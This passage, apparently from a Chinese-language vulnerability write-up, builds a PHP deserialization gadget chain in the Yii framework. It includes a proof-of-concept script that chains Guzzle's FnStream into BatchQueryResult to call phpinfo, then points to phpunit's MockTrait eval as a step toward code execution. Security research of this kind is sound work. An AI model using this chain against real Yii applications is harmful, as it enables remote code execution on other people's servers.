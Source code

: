 &lt;u&gt;vendor/guzzlehttp/psr7/src/FnStream.php&lt;/u&gt;

```php
namespace GuzzleHttp\Psr7;

class FnStream implements StreamInterface {
    // 需要控制的参数, 原本并没有定义所以无要求
    var $_fn_close;
}
```

poc 如下

```php
<?php

namespace GuzzleHttp\Psr7 {
    class FnStream {
        var $_fn_close = "phpinfo";
    }
}

namespace yii\db {
    use GuzzleHttp\Psr7\FnStream;
    class BatchQueryResult {
        // 需要控制的成员属性
        private $_dataReader;

        public function __construct() {
            $this->_dataReader  = new FnStream();
        }
    }

    $b = new BatchQueryResult();
    var_dump(serialize($b));
}
```

执行成功.  
![005](https://shs3.b.qianxin.com/butian_public/fe4dc983f235404b78b91449e9c1d5270.jpg)

危害放大
----

可以注意到, FnStream 类中的 call\_user\_func 只有一个参数. 翻一翻官方文档，发现了相应的解决方法. 所以遇到阻塞时，多翻翻手册也许会柳暗花明

![006](https://shs3.b.qianxin.com/butian_public/f661ffef09b4af02fa16c3bc07525a3fb.jpg)

如果要放大危害，这里只能作为跳板，还需要一个类. 全局搜索各危险函数. 寻找参数可控的方法.

在 &lt;u&gt;vendor\\phpunit\\phpunit\\src\\Framework\\MockObject\\MockTrait.php&lt;/u&gt; 中找到了相应的方法

```php
public function generate(): string
{
    if (!\class_exists($this->mockName, false)) {
        eval($this->classCode);
    }
    return $this->mockName;
}
```
